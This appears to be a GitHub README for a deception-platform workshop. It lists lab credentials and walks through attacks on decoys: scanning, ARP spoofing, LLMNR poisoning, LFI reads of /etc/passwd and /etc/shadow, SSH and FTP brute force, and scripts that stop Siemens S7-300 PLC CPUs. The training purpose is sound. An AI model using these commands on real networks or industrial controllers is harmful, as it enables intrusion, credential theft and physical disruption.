 # Welcome to the Advanced Threat Summit 2023

All you may need for the workshop is available in this repository.

## Getting the access

To begin with, please navigate to our test stand:
1. **Credentials to the AdminVM**

You may use any web browser of your choice.
```
URL: https://demo.labyrinth.tech/
Username: ats
Password: PH5sz%3K7Cy
```

2. **Credentials to the attacking host**

From this host you will perform your attacks. Please use SSH and following credentials:
```
Host: warrior.labyrinth.tech
Username: user
Password: uKm9(9d3ZU3x
```

## Terminology that will be used today

Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own terminology that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **AdminVM (Management Console)**  = main module that controls the system.
6. **WorkerVM** = node on which Points are running.


## Commands transcript

In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: connecting to the host using data from breadcrumbs 
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: ARP spoofing
```
sudo ettercap -i <interface> -T -M arp /<host 1>// /<host2>//
```
As an alternative you may use bettercap:
```
sudo bettercap
net.probe on
net.show
set arp.spoof.targets <Point IP>
set arp.spoof.fullduplex false
arp.spoof on
// after some time
arp.spoof off
```
References: [ettecap](https://www.ettercap-project.org/) and [bettercap](https://github.com/bettercap/bettercap) source

#### Case 4: LLMNR / NBT-NS Poisoning
For this we will be using *Responder*. It is already installed. All you need to do is to run a command:

```
cd Responder
sudo python2 Responder.py -I eth0
```
Reference: [Responder source](https://github.com/SpiderLabs/Responder)

#### Case 5: S7comm Malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is available in this repo.
Simply run it: 
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
#### Case 6: Local File Inclusion
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```

#### [Advanced] Case 7: reusing the credentials
1. Find Web Server
```
sudo nmap -sS -sC -p80,443 <Honeynet IP> -vvv
```
2. Explore found web server

Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```

Search for additional web path:
```
dirsearch --wordlists=/home/user/wordlists/directories.txt -u https://<Point IP>/ 
```

Reference: [dirsearch](https://github.com/maurosoria/dirsearch)

3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
6. Reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 8: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP

Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP address>
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py <S7-300 IP address>
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 
